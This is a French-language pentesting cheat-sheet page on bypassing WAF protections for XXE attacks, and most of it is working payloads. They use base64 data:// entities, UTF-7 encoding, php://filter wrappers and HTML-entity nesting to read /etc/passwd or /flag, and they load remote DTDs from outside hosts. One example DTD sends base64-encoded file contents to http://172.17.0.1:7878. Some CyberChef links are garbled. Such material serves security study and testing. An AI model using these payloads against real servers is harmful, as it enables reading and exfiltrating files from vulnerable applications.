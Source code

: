 ## Bypasses de WAF et protections

### Base64
```xml
<!DOCTYPE test [ <!ENTITY % init SYSTEM "data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> %init; ]><foo/>
```
Cela ne fonctionne que si le serveur XML accepte le protocole `data://`.

### UTF-7

Vous pouvez utiliser la \[**"Encode Recipe**" de cyberchef ici ]\(\[[https://gchq.github.io/CyberChef/#recipe=Encode_text%28'UTF-7](https://gchq.github.io/CyberChef/#recipe=Encode_text%28'UTF-7) %2865000%29'%29\&input=PCFET0NUWVBFIGZvbyBbPCFFTlRJVFkgZXhhbXBsZSBTWVNURU0gIi9ldGMvcGFzc3dkIj4gXT4KPHN0b2NrQ2hlY2s%2BPHByb2R1Y3RJZD4mZXhhbXBsZTs8L3Byb2R1Y3RJZD48c3RvcmVJZD4xPC9zdG9yZUlkPjwvc3RvY2tDaGVjaz4)to]\([https://gchq.github.io/CyberChef/#recipe=Encode_text%28'UTF-7 %2865000%29'%29\&input=PCFET0NUWVBFIGZvbyBbPCFFTlRJVFkgZXhhbXBsZSBTWVNURU0gIi9ldGMvcGFzc3dkIj4gXT4KPHN0b2NrQ2hlY2s%2BPHByb2R1Y3RJZD4mZXhhbXBsZTs8L3Byb2R1Y3RJZD48c3RvcmVJZD4xPC9zdG9yZUlkPjwvc3RvY2tDaGVjaz4%29to](https://gchq.github.io/CyberChef/#recipe=Encode_text%28%27UTF-7%20%2865000%29%27%29&input=PCFET0NUWVBFIGZvbyBbPCFFTlRJVFkgZXhhbXBsZSBTWVNURU0gIi9ldGMvcGFzc3dkIj4gXT4KPHN0b2NrQ2hlY2s%2BPHByb2R1Y3RJZD4mZXhhbXBsZTs8L3Byb2R1Y3RJZD48c3RvcmVJZD4xPC9zdG9yZUlkPjwvc3RvY2tDaGVjaz4%29to)) pour transformer en UTF-7.
```xml
<!xml version="1.0" encoding="UTF-7"?-->
+ADw-+ACE-DOCTYPE+ACA-foo+ACA-+AFs-+ADw-+ACE-ENTITY+ACA-example+ACA-SYSTEM+ACA-+ACI-/etc/passwd+ACI-+AD4-+ACA-+AF0-+AD4-+AAo-+ADw-stockCheck+AD4-+ADw-productId+AD4-+ACY-example+ADs-+ADw-/productId+AD4-+ADw-storeId+AD4-1+ADw-/storeId+AD4-+ADw-/stockCheck+AD4-
```

```xml
<?xml version="1.0" encoding="UTF-7"?>
+ADwAIQ-DOCTYPE foo+AFs +ADwAIQ-ELEMENT foo ANY +AD4
+ADwAIQ-ENTITY xxe SYSTEM +ACI-http://hack-r.be:1337+ACI +AD4AXQA+
+ADw-foo+AD4AJg-xxe+ADsAPA-/foo+AD4
```
### File:/ Bypass de protocole

Si le web utilise PHP, au lieu d'utiliser `file:/`, vous pouvez utiliser **php wrappers** `php://filter/convert.base64-encode/resource=` pour **accéder aux fichiers internes**.

Si le web utilise Java, vous pouvez vérifier le [**jar: protocole**](xxe-xee-xml-external-entity.md#jar-protocol).

### Entités HTML

Astuce de [**https://github.com/Ambrotd/XXE-Notes**](https://github.com/Ambrotd/XXE-Notes)\
Vous pouvez créer une **entité à l'intérieur d'une entité** en l'encoding avec **entités html** et ensuite l'appeler pour **charger un dtd**.\
Notez que les **entités HTML** utilisées doivent être **numériques** (comme \[dans cet exemple]\([https://gchq.github.io/CyberChef/#recipe=To_HTML_Entity%28true,'Numeric entities'%29\&input=PCFFTlRJVFkgJSBkdGQgU1lTVEVNICJodHRwOi8vMTcyLjE3LjAuMTo3ODc4L2J5cGFzczIuZHRkIiA%2B)\\](<https://gchq.github.io/CyberChef/#recipe=To_HTML_Entity%28true,%27Numeric%20entities%27%29&input=PCFFTlRJVFkgJSBkdGQgU1lTVEVNICJodHRwOi8vMTcyLjE3LjAuMTo3ODc4L2J5cGFzczIuZHRkIiA%2B)%5C>)).
```xml
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY % a "&#x3C;&#x21;&#x45;&#x4E;&#x54;&#x49;&#x54;&#x59;&#x25;&#x64;&#x74;&#x64;&#x53;&#x59;&#x53;&#x54;&#x45;&#x4D;&#x22;&#x68;&#x74;&#x74;&#x70;&#x3A;&#x2F;&#x2F;&#x6F;&#x75;&#x72;&#x73;&#x65;&#x72;&#x76;&#x65;&#x72;&#x2E;&#x63;&#x6F;&#x6D;&#x2F;&#x62;&#x79;&#x70;&#x61;&#x73;&#x73;&#x2E;&#x64;&#x74;&#x64;&#x22;&#x3E;" >%a;%dtd;]>
<data>
<env>&exfil;</env>
</data>
```
Exemple de DTD :
```xml
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/flag">
<!ENTITY % abt "<!ENTITY exfil SYSTEM 'http://172.17.0.1:7878/bypass.xml?%data;'>">
```
